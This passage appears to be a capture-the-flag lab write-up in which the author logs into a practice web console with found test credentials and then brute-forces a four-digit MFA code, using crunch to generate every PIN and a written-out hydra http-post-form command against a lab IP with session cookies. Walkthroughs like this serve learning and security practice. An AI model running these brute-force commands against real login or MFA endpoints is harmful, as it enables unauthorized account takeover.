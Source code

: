 *Our username and password*
```
jason_test_account:violet
```
*we succefully login but we need mfa code*

<img src="/assets/img/bitemeTHM/mfa.png" alt="" width="500" height="600">

*so let check mfa.phps, we got not found and that was bad luck. let move on*

*Check source code we see that handlesubmit*

*repeat all those steps like what we did when we debug javascript.
you will see another message left for us.*
```
@fred we need to put some brute force protection on here, remind me in the morning... jason
```
*he say that he put bruteforce and i dont see some csrf token so let bruteforce*

**generate 4 numbers**
```
└─$ crunch 4 4 -t %%%% -o pin.txt
Crunch will now generate the following amount of data: 50000 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 10000 

crunch: 100% completed generating output

```
**Bruteforce**
*Use hydra to bruteforce for pins*
```
hydra -l jason_test_account -P pin.txt 10.10.109.19 http-post-form "/console/mfa.php:code=^PASS^:Incorrect code:H=Cookie: PHPSESSID=ctmklmsqs2q5sg90f81gt2a8qr; user=jason_test_account; pwd=violet" -V
```
*we found pin*
